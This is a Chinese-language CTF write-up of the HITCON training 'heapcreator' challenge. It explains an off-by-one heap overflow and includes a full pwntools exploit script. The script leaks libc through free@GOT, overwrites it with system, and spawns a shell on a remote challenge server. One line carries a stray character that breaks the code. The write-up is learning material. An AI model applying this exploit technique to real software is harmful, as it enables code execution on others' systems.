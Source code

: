 ```yaml
---
title: 巩固offbyone
date: 2022-03-21 14:22:14
tags:
    - 堆
    - pwn

---
```


<!--more-->

# heapcreator

通过hitcon training lab 13继续巩固offbyone 漏洞。

![image-20220321144455336](https://s2.loli.net/2022/03/27/EN7XCuKcALigtZJ.png)

就pie没开

## 菜单

```
int menu()
{
  puts("--------------------------------");
  puts("          Heap Creator          ");
  puts("--------------------------------");
  puts(" 1. Create a Heap               ");
  puts(" 2. Edit a Heap                 ");
  puts(" 3. Show a Heap                 ");
  puts(" 4. Delete a Heap               ");
  puts(" 5. Exit                        ");
  puts("--------------------------------");
  return printf("Your choice :");
}
```

## create函数

![image-20220321150641343](https://s2.loli.net/2022/03/27/lyErFswdmgptzua.png)

没看出问题

## delete函数

![image-20220321150730194](https://s2.loli.net/2022/03/27/wJTypEPh5mi6YlD.png)

经验比较少，一开始误以为这里没有free   (*(&heaparray + v1) + 1)这个指针，后来一想这个if判断好像没问题

## show函数

![image-20220321151254618](https://s2.loli.net/2022/03/27/dk51aOsBjFxuYbf.png)

## edit函数

![image-20220321151402479](https://s2.loli.net/2022/03/27/KDkIPWfJ8yZYhoE.png)

## 思路

想法应该还是通过system(/bin/sh)打通，所以要去找能被system覆盖的函数，按照经验可以是free_hook函数，但是要求free_hook需要先计算libc偏移，计算libc偏移就需要show功能函数打印出来，需要被打印出的函数类似（puts,或者read……）覆盖堆上的指针，已知offbyone可以覆盖prev_size的情况下，可以构建一个伪堆块用我们需要的函数覆盖上面的指针。

## EXP

```
# -*- coding: utf-8 -*-
from pwn import *
#context.log_level='debug'
#p=process('./heapcreator')
p=remote('node4.buuoj.cn',25917)
elf=ELF('./heapcreator')q
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def debug():
	gdb.attach(p)
def create(size,content):
	p.recvuntil('choice :')
	p.sendline('1')
	p.recvuntil('Size of Heap : ')
	p.sendline(str(size))
	p.recvuntil('Content of heap:')
	p.sendline(content)
def edit(index,content):
	p.recvuntil('choice :')
	p.sendline('2')	
	p.recvuntil('Index :')
	p.sendline(str(index))
	p.recvuntil('Content of heap : ')
	p.sendline(content)
def show(index):
	p.recvuntil('choice :')
	p.sendline('3')	
	p.recvuntil('Index :')
	p.sendline(str(index))
def delete(index):
	p.recvuntil('choice :')
	p.sendline('4')		
	p.recvuntil('Index :')
	p.sendline(str(index))	
free_got=elf.got['free']
create(0x18,"aaaa")	#idx 0
create(0x10,"bbbb")	#idx 1
create(0x10,"cccc")	#idx 2
#通过edit修改heap[0]->content，覆盖保存heap[1]->content的chunk的size为0x81
edit(0,'/bin/sh\x00'+'a'*10+'\x81')
#又构建一个堆，用于弥补idx 1不足的0x70大小，里面存放free_got地址
create(0x70,'p'*0x10+p64(0)+p64(0x21)+p64(0x70)+p64(free_got))
show(1)
free_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))#打印地址
log.success('free_addr=>{}'.format(hex(free_addr)))
libc_base=free_addr-libc.sym['free']#计算libc偏移
system_addr=libc_base+libc.sym['system']
#payload='p'*0x10+p64(0)+p64(0x21)+p64(0x70)+p64(system_addr)
edit(1,p64(system_addr))#把idx 1里面free_got的指针指向覆盖为system（原本指向free_got的实际地址）
#debug()
delete(0)#free“/bin/sh”=system('/bin/sh')

p.interactive()
```

## 反思

​	我觉得这道题难点的是如何巧妙利用的堆，我其实一开始看出来了offbyone，但是不知道该如何去运用这个one字节，虽然也明白可以覆盖下一个堆块的prev_size大小，但是还是无从下手，感觉还得多练